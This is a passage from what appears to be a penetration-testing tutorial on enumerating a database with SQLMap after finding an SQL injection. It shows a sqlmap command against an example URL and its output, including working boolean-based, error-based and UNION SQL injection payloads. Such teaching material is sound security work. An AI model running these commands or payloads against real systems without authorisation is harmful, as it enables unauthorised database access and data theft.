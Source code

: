 Another example is retrieving all the usernames (i.e., tag `<users>`). There are two queries used, depending on the situation. The query marked as `inband` is used in all non-blind situations (i.e., UNION-query and error-based SQLi), where the query results can be expected inside the response itself. The query marked as `blind`, on the other hand, is used for all blind situations, where data has to be retrieved row-by-row, column-by-column, and bit-by-bit.

***

## Basic DB Data Enumeration

Usually, after a successful detection of an SQLi vulnerability, we can begin the enumeration of basic details from the database, such as the hostname of the vulnerable target (`--hostname`), current user's name (`--current-user`), current database name (`--current-db`), or password hashes (`--passwords`). SQLMap will skip SQLi detection if it has been identified earlier and directly start the DBMS enumeration process.

Enumeration usually starts with the retrieval of the basic information:

* Database version banner (switch `--banner`)
* Current user name (switch `--current-user`)
* Current database name (switch `--current-db`)
* Checking if the current user has DBA (administrator) rights (switch `--is-dba`)

The following SQLMap command does all of the above:

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql' 
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
```